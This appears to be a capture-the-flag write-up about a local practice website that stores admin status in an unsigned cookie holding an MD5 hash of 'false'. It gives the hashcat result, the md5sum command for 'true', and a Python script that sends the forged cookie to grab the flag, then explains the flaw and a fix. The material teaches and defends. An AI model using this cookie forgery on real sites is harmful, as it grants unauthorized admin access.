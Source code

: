 # How

While browsing the website, I noticed that I had a cookie named `I_am_admin` with the value `68934a3e9455fa72420237eb05902327`.

Based on the length and format, this looks like a MD5 hash.

Cracking it with `hashcat` returns this :

```
68934a3e9455fa72420237eb05902327:false
```

So, we can try to can compute the MD5 hash of `true` and set the cookie to that value.

```bash
$ echo -n 'true' | md5sum
b326b5062b2f0e69046810717534cb09 -
```

```python
import requests
import re

FLAG_REGEX = re.compile(r'(?<=Good job! Flag : )\w+')

cookies = {
    'I_am_admin': 'b326b5062b2f0e69046810717534cb09',
}

response = requests.get('http://localhost:4242/index.php', cookies=cookies)
print("Flag:", FLAG_REGEX.search(response.text)[0])
```

# Why

The website uses a cookie to store whether the user is an admin or not (which is a bad idea in itself).

But the cookie isn't encrypted or signed in any way, so we can just change its value to whatever we want.

# Fix

The best solution would be to store the user's privileges in a database and use a session cookie to identify them.